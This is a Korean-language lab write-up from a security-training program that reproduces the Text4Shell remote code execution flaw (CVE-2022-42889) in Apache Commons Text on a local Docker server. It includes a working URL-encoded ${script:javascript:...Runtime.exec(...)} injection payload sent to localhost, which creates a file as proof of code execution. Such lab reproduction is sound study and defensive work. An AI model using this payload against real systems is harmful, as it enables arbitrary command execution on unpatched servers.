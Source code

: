 # CVE-2022-42889
> 화이트햇 스쿨 3기 - 김동환

**vulhub.org에 없는 CVE환경을 구성하였습니다.**

<br/>

### 요약

- CVE-2022-42889는 Apache Commons Text 라이브러리(1.5 ~ 1.9 버전)에서 발견된 원격 코드 실행(RCE) 취약점입니다.

- 특정 버전의 Commons Text는 문자열 변수 치환(StringSubstitutor) 시 기본값으로 포함된 특정 조회(lookup) 기능(예: script, dns, url)을 통해 외부 입력값을 처리합니다.
- 이 중 script 조회 기능 등은 외부에서 제공된, 신뢰할 수 없는 스크립트나 데이터를 처리하여 실행할 수 있으므로, 공격자는 조작된 문자열(예: ${script:javascript:...})을 입력값으로 전달하여 서버에서 임의의 코드를 실행시킬 수 있습니다.
- 따라서 악의적인 공격자는 취약한 라이브러리를 사용하는 애플리케이션에 특수하게 조작된 입력값을 전송함으로써, 해당 서버의 제어권을 획득하거나 추가 공격을 수행할 수 있습니다.

<br>

---

<br>

### 환경 구성 및 실행 (MAC OS)
<br>

1. 명령어 실행


```
$ brew install maven
$ git clone https://github.com/karthikuj/cve-2022-42889-text4shell-docker
$ cd cve-2022-42889-text4shell-docker
$ mvn clean install
$ docker build --tag=text4shell .
$ docker run -p 8080:8080 text4shell
```

<br>

2. 취약 서버 구동

![alt text](image.png)

<br>

3. 서버 구동 후 정상 접근 확인

![alt text](image2.png)

<br>

4. 피해 시스템 / tmp 파일 내용 확인
```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image3.png)

<br>

5. 파라미터 값 조작 후 Exploit 진행
```
http://localhost:8080/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27touch%20%2Ftmp%2Fexploit%27)%7D
```

![alt text](image4.png)

> search 파라미터에 **${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}** 을 URL로 한번 인코딩 후 Exploit 진행




<br/>



### 결과


```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image6.png)
> exploit 파일 생성 확인

<br/>

### 정리

CVE-2022-42889는 Apache Commons Text 1.5~1.9 버전의 문자열 보간 기능에서 ${script:javascript:...} 형태의 입력을 통해 서버에서 임의 명령어가 실행되는 원격 코드 실행 취약점으로, 1.10.0 버전에서 해당 기능이 비활성화되며 해결되었고, 입력값 검증 부재로 인한 치명적 보안 리스크를 보여준다.